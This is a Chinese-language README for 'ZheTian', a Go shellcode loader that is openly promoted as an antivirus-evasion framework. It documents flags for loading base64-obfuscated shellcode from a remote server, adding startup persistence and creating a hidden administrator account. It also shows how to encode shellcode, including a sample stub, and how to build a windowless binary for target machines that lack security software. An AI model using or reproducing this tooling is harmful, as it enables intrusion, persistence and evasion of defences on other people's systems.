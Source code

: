 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")

# [ZheTian](https://github.com/yqcs/ZheTian/)

## ZheTian Powerful remote load and execute ShellCode tool，免杀shellcode加载框架

### 命令详解

> -u  string：从远程服务器加载base64混淆后的字节码。
>
> -r string：从本地文件内读。
>
> -s string：读取无修改的原始文件，只能从本地加载。
>
>-m boolean：参数为true自动向启动项添加自启模块。
>
>-o boolean：向userHome\tmp目录输出一次性可执行文件，体积比主程序小了五六倍，同理砍去了其他功能，只保留了ShellCode Loader
>
>-n string：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
>-c string：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>

## `·`如果releases里下载的可执行程序被安全软件查杀了，请下载源码重新编译一份！`·`

## 新增命令-o详解：

> 该命令主要是向用户目录下创建tmp文件夹，然后生产只包含shellcode的程序，体积小了五六倍，极致压缩，并且无任何回显。由于ShellCode写死在了程序内，所以导致用一段时间就会被查杀。
>
> 注意使用该命令需填充shellcode，同时拥有go环境。搭配-s、-u、-c、-r其中的任意命令即可，如：ZheTian -s payload.c -o true

## 示例：

### Base64字符串方式加载：

原始python代码：
> buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
> \xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
>
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
> byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
>

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c
ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==

### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s
命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

### 图示操作过程

先生成64位shellcode

![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/payload.jpg "my-logo")

然后根据需要的命令进行修改
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/payload.jpg "my-logo")

下面执行示例：
![my-logo.png](https://github.com/yqcs/ZheTian/blob/master/images/c.png "my-logo")

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行。但是360偶尔会识别为恶意程序。如果目标机器无安全设备，可以尝试使用此命令打包，然后使用参数： ` -o true` 实现写入启动项功能。

#### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/1.png "my-logo")

### 注意：打包的时候需指定是64位还是32位。默认会根据系统自动选择。 而在生成payload shellcode的时候也需要选择正确的位数，否则会加载失败。使用code字节码加载时一定要使用base64加密，否则无法解析！！

## 有问题可以提Issues，也可加微信联系

![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/wx.jpg "my-logo")
